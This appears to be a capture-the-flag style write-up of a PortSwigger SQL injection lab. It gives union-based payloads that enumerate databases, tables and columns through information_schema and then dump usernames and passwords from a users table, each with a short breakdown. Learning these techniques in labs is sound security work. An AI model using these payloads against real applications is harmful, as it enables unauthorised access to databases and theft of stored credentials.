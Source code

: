 ```yaml
---
description: >-
  https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables
---
```


# SQL injection UNION attack, retrieving data from other tables

**Level:** <mark style="color:blue;">**Practitioner**</mark>

<figure><img src="../../../../../.gitbook/assets/SQL_injection_UNION_attack_retrieving_data_from_other_tables.png" alt=""><figcaption></figcaption></figure>

* In this lab I will be showing how to get columns, tables and databases using a union-based attack.

<figure><img src="../../../../../.gitbook/assets/SQL_injection_UNION_attack_retrieving_data_from_other_tables2.png" alt=""><figcaption></figcaption></figure>

* First, we need to know the number of columns that are in the table that we are using.
* You can do this as is in the following image, or you can use **order by** either.

<figure><img src="../../../../../.gitbook/assets/SQL_injection_UNION_attack_retrieving_data_from_other_tables3.png" alt=""><figcaption></figcaption></figure>

* To get all the databases name, use the following payload.
* **' Union select schema\_name,NULL from information\_schema.schemata-- -**

**In a simple break down in this expression this is what it means:**

* Information\_schema.**schemata** - list me the DB names.
* **schema**\_name - get me back the DB names.

<figure><img src="../../../../../.gitbook/assets/SQL_injection_UNION_attack_retrieving_data_from_other_tables4.png" alt=""><figcaption></figcaption></figure>

* Now that we know the DB name that we want, we need to get the names of the tables.
* Use the following payload to retrieve the name of the tables.
* **' Union select table\_name,NULL from information\_schema.tables where table\_schema = 'DB\_NAME' -- -**

**Breakdown**

* information\_schema**.tables** - list me all the tables.
* **table\_name** - get me back the name of the tables.
* **table\_schema** - name of the database we want to use.

<figure><img src="../../../../../.gitbook/assets/SQL_injection_UNION_attack_retrieving_data_from_other_tables5.png" alt=""><figcaption></figcaption></figure>

* Now we use the following payload to get the columns of the table that we want.
* **' Union select column\_name,NULL from information\_schema.columns where table\_name = 'TABLE\_NAME' -- -**

**Breakdown**

* column\_name   - get me the names of the columns.
* information\_schema.columns - list me all the columns.
* table\_name - this is to select the table that we want to get info.

<figure><img src="../../../../../.gitbook/assets/SQL_injection_UNION_attack_retrieving_data_from_other_tables6.png" alt=""><figcaption></figcaption></figure>

* Now that we know the columns that we want to extract data, I like to use the following.
* **' Union select NULL,username||':'||password from users -- -**

**Breakdown**

* username||':'||password - this to represent the data in a better way.

**\*Important\***

If you don't understand the SQL logic and the way on how to write one, I recommend to practice in a virtual lab where you make the DB and break it by yourself.
